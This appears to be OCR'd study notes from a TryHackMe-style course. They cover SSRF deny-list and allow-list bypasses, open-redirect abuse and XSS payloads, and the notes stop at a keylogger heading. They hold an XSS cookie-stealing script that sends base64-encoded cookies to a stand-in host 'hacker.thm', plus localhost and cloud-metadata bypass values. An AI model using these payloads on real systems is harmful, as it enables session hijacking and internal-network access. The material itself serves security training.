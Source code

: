 ```
A Deny List is where all requests are accpeted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrct access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves tot he IP address 127.0.0.1 such as 127.0.0.1.nip.io.

Also in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS records that points to the IP address 169.254.169.254

### Allow List 

An Allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.htm. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request. 

### Open Redirect 

If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the umber of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice. 

## Cross-Site Scripting 

In XSS, the payload is the Java Script code we wish to be executed on the targets computer. There are two parts to the payload, the intention and the modification. 

The intention is what you wish the JavaScript to actually do (which we will cover with some examples below), and the modification is the changes to the code we need to make it execute as every scenario is different (more on this in the perfecting your payload task). 

Here are some examples of XSS intentions. 

### Proof Of Concept: 

This is the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website. This is often done by causing an alert box to pop up on the page with a string of text, for example: 

```<script>alert('XSS');</script>```

### Session Stealing 

Details of a user's session, such as login tokens, are often kept in cookies on the targets machine. The below JavaScript takes the target's cookie, base64 encodes the cookie to ensure successful transmission and then posts it to a website under the hacker's control to be logged. Once the hacker has these cookies, they can take over the target's session and be logged at that user. 

```<script>fetch('https://hacker.thm/steal?cookie=' +btoa(document.cookie));</script>```

### Key Logger

```